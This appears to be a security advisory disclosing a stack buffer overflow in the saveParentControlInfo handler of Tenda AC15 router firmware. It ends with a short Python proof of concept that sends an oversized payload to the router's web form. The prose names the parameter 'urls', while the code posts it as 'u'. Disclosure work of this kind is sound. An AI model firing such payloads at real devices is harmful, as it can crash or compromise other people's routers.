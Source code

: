 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316165918271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165918271.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240316170615271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316170615271.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240316170554480](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316170554480.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"u": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316165929708](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165929708.png)
